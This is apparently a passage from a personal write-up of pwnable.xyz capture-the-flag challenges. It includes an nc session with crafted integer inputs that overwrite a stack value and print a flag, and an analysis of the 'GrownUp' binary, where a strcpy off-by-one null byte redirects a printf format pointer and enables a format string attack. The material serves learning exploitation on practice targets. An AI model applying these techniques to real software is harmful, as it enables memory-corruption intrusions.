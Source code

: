 I figured by using correct a,b,c input values, we could change the 0xdeadbeef to 0xb000000b5.

But since we are aligned to 8bytes, we have to write twice, to rbp-0x90 and rbp-0x98.

exploit:
```bash
junheah@ubuntu:~$ nc svc.pwnable.xyz 30003
184549376 0 -5
Result: 184549376
-5404319552844595200 0 -6
Result: -5404319552844595200
a
FLAG{u_cheater_used_a_debugger}
```

## 4. GrownUp
```c
// ida pro hexray
int __cdecl main(int argc, const char **argv, const char **envp)
{
  char *src; // ST08_8
  __int64 buf; // [rsp+10h] [rbp-20h]
  __int64 v6; // [rsp+18h] [rbp-18h]
  unsigned __int64 v7; // [rsp+28h] [rbp-8h]

  v7 = __readfsqword(0x28u);
  setup();
  buf = 0LL;
  v6 = 0LL;
  printf("Are you 18 years or older? [y/N]: ", argv);
  *((_BYTE *)&buf + (signed int)((unsigned __int64)read(0, &buf, 0x10uLL) - 1)) = 0;
  if ( (_BYTE)buf != 121 && (_BYTE)buf != 89 )
    return 0;
  src = (char *)malloc(0x84uLL);
  printf("Name: ", &buf);   //0x400A1B
  read(0, src, 0x80uLL);
  strcpy(usr, src);         //usr: 0x6010E0
  printf("Welcome ", src);  //0x400A22
  printf(qword_601160, usr);
  return 0;
}
```
flag variable location:
```
.data:0000000000601080                 public flag
.data:0000000000601080 flag            db 'FLAG{_the_real_flag_will_be_here_}',0
```
I was stuck for quite a while here, until I found out that when max amount to data is inputted to src buffer, extra null byte is copied to usr. This is because ``strcpy`` considers null byte as the end of buffer, and copies the buffer including that extra null byte. So in this case, if we input 128 bytes (including newline), usr+0x80(0x601160) would be overwritten by a null byte.

0x601160 contains address for "%s\n", initialized in function ``setup``.
```bash
gdb-peda$ x/wx 0x601160
0x601160 <usr+128>:     0x00601168
```
When last byte becomes null, the address would become 0x00601100, which is usr+0x20. Giving us control over first arg in printf, which in other words, vulnerable to a format string attack.

